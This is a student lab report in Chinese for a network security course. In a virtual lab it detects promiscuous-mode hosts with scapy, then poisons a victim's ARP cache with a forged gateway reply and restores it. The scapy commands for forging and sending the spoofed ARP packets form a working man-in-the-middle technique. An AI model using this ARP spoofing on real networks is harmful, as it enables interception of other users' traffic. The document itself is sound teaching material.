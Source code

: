 # 实验四 网络监听

## 实验准备

网络拓扑图

![](img/NetworkTopology.png)

网络中节点基本信息

- 攻击者主机

  - 08:00:27:22:46:4f/eth0

  - 172.16.222.124

    ![](img\attacker_ip.png)

- 受害者主机

  - 08:00:27:3c:dc:98/enp0s3

  - 172.16.222.140

    ![](img/victim_ip.png)

- 网关

  - 08:00:27:94:92:b1/enp0s10

  - 172.16.222.1

    ![](img/gateway_ip.png)

## 实验过程

#### 检测局域网中的异常终端

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show enp0s3
```

![](img/victim-iplink.png)

```
# 在攻击者主机上开启 scapy
sudo scapy
```

![](img/scapy.png)

```
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.222.140")
```

![](img/promiscping.png)

此时并没有收到回应。

**注意：此时不可在受害者主机上开启抓包，因为抓包就是开启了混杂模式，从而就会收到回应。**

```
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set enp0s3 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show enp0s3
```

![](img/promisc-on.png)

```
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.222.140")
```

![](img/promiscping2.png)

可以发现，受害者主机开启混杂模式后，就可以收到回复。

> 混杂模式：接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址。
>
> promiscping：Send ARP who-has requests to determine which hosts are in promiscuous mode

#### 手工单步“毒化”目标主机ARP缓存

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.222.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![](img/arpbroadcast.png)

```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![](img/gw_mac.png)

网关MAC地址为`08:00:27:94:92:b1`

```
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.222.140
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.222.1", pdst="172.16.222.140", hwdst="08:00:27:22:46:4f")

# 发送上述伪造的 ARP 响应数据包到受害者主机

sendp(arpspoofed)
```

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```
ip neigh
```

![img](img/arp.png)]

可以发现网关的MAC已经变成了攻击者主机的MAC。

```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.222.1", hwsrc="08:00:27:94:92:b1", pdst="172.16.222.140", hwdst="08:00:27:3c:dc:98")
sendp(restorepkt1, count=100, inter=0.2)
```

![img](img/restorepkt1.png)

此时再次查看受害者主机的ARP缓存

![img](img/arp2.png)

## 参考资料

[实验 · 网络安全 (c4pr1c3.github.io)](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)